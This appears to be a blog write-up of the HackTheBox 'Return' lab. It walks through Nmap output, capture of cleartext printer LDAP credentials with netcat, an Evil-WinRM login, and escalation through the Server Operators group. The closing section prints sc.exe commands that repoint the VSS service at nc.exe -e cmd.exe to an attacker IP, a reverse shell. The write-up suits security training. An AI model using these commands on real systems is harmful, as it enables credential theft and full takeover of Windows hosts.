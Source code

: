 ```yaml
---
weight: 1
title: "HackTheBox - Return Writeup"
date: 2022-04-02
draft: false
author: "SH∆FIQ ∆IM∆N"
authorLink: "https://shafiqaiman.com"
images: []
resources:
- name: "featured-image"
  src: "featured.png"

tags: ["server-operators-group", "printer", "sc.exe", "evil-winrm"]
categories: ["HacktheBox","Windows"]

lightgallery: true
toc:
  auto: false
---
```


Box author | {{< person url="https://app.hackthebox.com/users/13531" name="MrR3boot" picture="https://www.hackthebox.com/storage/avatars/45c15da90175761bef77ecb2d44942b4.png" >}}

<!--more-->

## Nmap

First, let's start scanning the IP address with the Nmap.

### result

```sql
# Nmap 7.92 scan initiated Sat Apr  2 02:24:05 2022 as: nmap -sC -sV -oN nmap/return 10.10.11.108
Nmap scan report for 10.10.11.108
Host is up (0.053s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-04-01 18:42:49Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-04-01T18:42:56
|_  start_date: N/A
|_clock-skew: 18m34s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr  2 02:24:25 2022 -- 1 IP address (1 host up) scanned in 20.29 seconds
```

That's a bunch of open ports. Turns out, this machine is an Active Directory Domain.

## Http

The `port 80` is got my attention because the Nmap scan result says, the title of the webpage is `HTB Printer Admin Panel`. Let's take a look at it, which is running on `Microsoft IIS`.

![printer webpage](printer-home.png "printer webpage")

It is a simple webpage and a lot of the buttons on the navigation bar don't work at all. However, when I clicked on the `Settings` button. I've been greeted by this!

![printer settings](printer-settings.png "printer settings")

So, I tried to change the password first and play around with it but nothing has happens. Then, I google around and found this [HackTricks - AD information in printers](https://book.hacktricks.xyz/windows/active-directory-methodology/ad-information-in-printers). It highlights some blogs too: 
- [https://www.ceos3c.com/hacking/obtaining-domain-credentials-printer-netcat/](https://www.ceos3c.com/hacking/obtaining-domain-credentials-printer-netcat/)
- [https://medium.com/@nickvangilder/exploiting-multifunction-printers-during-a-penetration-test-engagement-28d3840d8856](https://medium.com/@nickvangilder/exploiting-multifunction-printers-during-a-penetration-test-engagement-28d3840d8856)
- [https://grimhacker.com/2018/03/09/just-a-printer/](https://grimhacker.com/2018/03/09/just-a-printer/)

### NetCat

First, let's start the `nc` and listen to `port 389`. Then, in the `settings` page, change the `Server Address` into your IP address which is tun0, and click `Update`.

![put tun0 ip](printer-tun0.png "put tun0 ip")

![grab the credentials](nc-clear-pass.png "grab the credentials")

In the image above. The `nc` successfully grabs the password and it's in form of `clear-text`.

## Evil-WinRM

Now, I have the password of the `svc-printer` user. Let's try to connect to this machine by using `Evil-WinRM`.

![login as svc-printer](evil-winrm-svc-printer.png "login as svc-printer")

YES! I'm in. This user also can read the `user flag` located in this directory `C:\Users\svc-printer\Desktop`.

### Server Operators

The first thing I love to do is run this command `whoami /all`. This command is gonna display user, group, and privileges information for the user who is currently logged on. 

![Server Operators group](whoami-all.png "Server Operators group")

Here's the result. The `BUILTIN\Server Operators` caught my eyes. Why? because this group can create and delete network shared resources, start and stop services, back up and restore files. Need more information on this group. Here's the link [Microsoft - Server Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators)

So, I start googling around and found this [cube0x0 - Poc'ing Beyond Domain Admin - Part 1](https://cube0x0.github.io/Pocing-Beyond-DA/). This article shows us how to stop and start services. 

### nc.exe

First, I'm gonna start the `python http server` in my attack machine in the directory called `www` and it contains the copy of the `nc.exe` file. Then, `download` it into the victim machine which is a Windows machine.

![transfer nc.exe](nc-exe-download.png "transfer nc.exe")

## System Shell

So, In this [article](https://cube0x0.github.io/Pocing-Beyond-DA/) is straight forward and I'm gonna change the service configuration. In this case, I'm gonna change the `VSS config` to run the `nc.exe` but first, I'm gonna start the `nc listener` in my attack machine on my desired port. Anyways, the command is down below:

```powershell
# Here's the command
sc.exe config VSS binpath="C:\Users\svc-printer\Desktop\nc.exe -e cmd.exe 10.10.14.14 9901"
sc.exe stop VSS
sc.exe start VSS
```

![shell as nt authority\system](system-shell.png "shell as nt authority\system")

TA DAAA!!! now I'm an `authority\system`.